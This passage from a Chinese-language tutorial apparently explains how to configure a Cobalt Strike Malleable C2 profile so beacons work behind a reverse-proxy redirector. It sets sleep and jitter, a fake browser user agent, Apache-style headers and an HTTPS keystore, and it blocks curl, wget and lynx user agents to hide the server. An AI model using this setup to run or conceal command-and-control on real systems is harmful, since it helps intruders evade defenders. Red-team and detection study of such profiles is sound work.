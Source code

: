不正确的规则都重定向到反向代理域名的正常应用上。

![不符合重写规则.png](assets/1708583825-2931a35a796dd6baf649423efe1f2ca0.png)

**C2 Profile HTTP 请求配置**

注意此时创建 Stageless Payload 还无法上线，因为请求不符合重写规则一定会被重定向，包括后面的 Beacon 通信也是一样。

这里写 Profile 定制 Stager 和 Beacon 的 HTTP 请求以符合反代重写规则。

```plaintext
# 全局变量
set sleeptime "10000";
set jitter    "50";  
set useragent "Mozilla/5.0 AppleWebKit/537.36.37 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36.37";  
set host_stage "false"; # Do not use staging. Must use stageles payloads, now the default for Cobalt Strike built-in processes


# 所有 HTTP 请求响应配置
http-config {
    set headers "Date, Server, Content-Length, Keep-Alive, Connection, Content-Type";
    header "Server" "Apache";
    header "Keep-Alive" "timeout=10, max=100";
    header "Connection" "Keep-Alive";
    # Use this option if your teamserver is behind a redirector
    set trust_x_forwarded_for "true";
    # Block Specific User Agents with a 404 (added in 4.3)
    set block_useragents "curl*,lynx*,wget*";
}


# 设置 HTTPS 监听器证书
https-certificate {
    set keystore "www.example.com.store";
    set password "123456";
}


```